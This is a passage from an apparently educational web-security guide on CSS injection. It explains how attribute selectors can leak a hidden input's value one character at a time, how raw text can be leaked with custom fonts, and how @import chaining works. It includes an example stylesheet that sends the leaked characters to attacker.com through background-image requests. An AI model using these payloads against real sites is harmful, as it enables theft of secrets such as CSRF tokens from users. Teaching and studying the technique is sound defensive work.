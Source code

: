 The attacker can repeat this for all possible characters to find one, then change the CSS to match the first and second characters now that the first is known.

```html
<input name="secret" value="secret">
<style>
/* 1st iteration */
input[name="secret"][value^="a"] { background: url(https://attacker.com/?a) }
input[name="secret"][value^="b"] { background: url(https://attacker.com/?b) }
input[name="secret"][value^="c"] { background: url(https://attacker.com/?c) }
...
input[name="secret"][value^="z"] { background: url(https://attacker.com/?z) }
/* 2nd iteration, once we receive the request for /?s */
input[name="secret"][value^="sa"] { background: url(https://attacker.com/?sa) }
input[name="secret"][value^="sb"] { background: url(https://attacker.com/?sb) }
input[name="secret"][value^="sc"] { background: url(https://attacker.com/?sc) }
...
input[name="secret"][value^="sz"] { background: url(https://attacker.com/?sz) }
</style>
```

### Selectors

For different types of content that we want to leak, there are different selectors. One edge case is if the secret input we want to leak has the **`type="hidden"`** attribute, which won't allow us to set a background image on it. Instead, we can target an adjacent element to set the background on, while still matching the hidden element. Read the [#stealing-hidden-input](https://aszx87410.github.io/beyond-xss/en/ch3/css-injection/#stealing-hidden-input) section for details on how to do this.

To leak **raw text** on the page instead of attributes, some more complex techniques are necessary. Firstly, "raw text" is just the content in between tags, like `<p>This is raw text</p>`. You can make even `<script>` tags in the body behave like text by giving them a `display: block` property. To leak such strings, you can abuse custom fonts to give certain characters a unique height, and then detect the presence of scroll bars to find which characters are shown. See this writeup to see how it is done:

{% embed url="https://research.securitum.com/stealing-data-in-great-style-how-to-use-css-to-attack-web-application/" %}
Leaking raw text nodes with CSS
{% endembed %}

### @import chaining

The technique explained above requires multiple separate loads of the CSS which may be difficult in some scenarios, so there exists a more complicated technique.

By including `@import` statements in the CSS, you can load extra CSS from a URL that may not respond yet, while the rest of the CSS that is already loaded will. If you create a clever server that responds with the 1st iteration right away, and then delays the response for the 2nd iteration, you can wait until the leak result from the 1st iteration comes in and then dynamically generate the 2nd iteration payload. Doing this is a chain allows you to leak larger amounts of text in a single shot.

One requirement for this `@import` chain attack is that your input is at the _start of a `<style>` tag_, often achieved through HTML-Injection. Just closing a selector and then writing an `@import` statement right after won't work, they can only exist at the top of the CSS source. See this article for details on exploitation:
